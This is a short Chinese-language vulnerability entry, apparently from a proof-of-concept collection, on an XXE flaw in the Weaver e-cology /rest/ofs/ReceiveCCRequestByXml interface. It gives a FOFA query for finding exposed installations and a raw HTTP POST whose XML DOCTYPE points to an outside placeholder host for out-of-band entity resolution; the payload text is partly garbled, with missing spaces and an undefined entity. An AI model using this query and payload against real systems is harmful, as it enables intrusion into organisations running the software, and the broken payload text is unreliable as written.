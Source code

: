 # 泛微E-Cology系统接口ReceiveCCRequestByXml存在XXE漏洞

泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。泛微e-cology系统接口`/rest/ofs/ReceiveCCRequestByXml` 存在XXE漏洞

## fofa

```java
app="泛微-协同商务系统"
```

## poc

```java
POST /rest/ofs/ReceiveCCRequestByXml HTTP/1.1
Host:{{Hostname}}
User-Agent:Mozilla/5.0(WindowsNT10.0;WOW64)AppleWebKit/537.36(KHTML, likeGecko)Chrome/71.0.3578.98Safari/537.36
Content-Type:application/xml
 
<?xmlversion="1.0"encoding="utf-8"?>
<!DOCTYPEsyscodeSYSTEM"http://xxx.xxxx.com">
<M><syscode>&send;</syscode></M>
```

